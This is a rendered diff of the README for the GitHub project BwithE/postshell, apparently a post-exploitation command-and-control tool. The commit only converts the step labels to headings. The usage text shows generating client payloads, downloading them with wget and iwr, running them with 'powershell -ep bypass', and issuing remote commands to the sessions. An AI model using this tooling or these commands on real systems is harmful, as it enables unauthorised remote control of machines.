

Before and after one commit to BwithE/postshell, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 90% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -123,14 +124,14 @@ payload> generate
 [+] Payload generated and saved as 'tools/client.ps1'
 ```
 
-Transfer the client script
+## Transfer the client scripts
 ```
 wget http://127.0.0.1/tools/client.sh
 
 iwr http://127.0.0.1/tools/client.ps1 -outfile client.ps1
 ```
 
-Execute the script on the client
+## Execute the script on the client
 ```
 bash client.sh
 
@@ -139,7 +140,7 @@ python3 client.py
 powershell -ep bypass client.ps1
 ```
 
-To see active clients
+## List active clients
 ```
 postshell> list
 ╔════╦═════════════════╦═════════════════╦═════════╦════════════════╦══════════════════╦════════╗
@@ -162,13 +163,13 @@ postshell> list
 
 ```
 
-To connect to an active session
+## Connect to an active session
 ```
 postshell> select 1
 [luke@SKYWALKER]>
 ```
 
-Execute commands, and wait for the client to GET the command, then POST the results
+## Execute commands, and wait for the client to GET the command, then POST the results
 ```
 [luke@SKYWALKER]> pwd
 
@@ -178,30 +179,30 @@ C:\Users\Luke
 
 ```
 
-Background a session
+## Background a session
 ```
 [luke@SKYWALKER]> background
 ```
 
-Kill the current session
+## Kill the current session
 ```
 [chewie@WOOKIE]> die
 [!] Sent die command to chewie@WOOKIE
 ```
 
-Kill an active session from the menu
+## Kill an active session from the menu
 ```
 postshell> kill 1
 [!] Sent kill command to luke@SKYWALKER
 ```
 
-Kill all sessions
+## Kill all sessions
 ```
 postshell> killall
 [!] Terminating all sessions.
 ```
 
-Exit POSTSHELL
+## Exit POSTSHELL
 ```
 postshell> exit
 [!] Shutting down server and all sessions.
````
Also changed, not shown: other parts of README.md (+4 -3 lines).
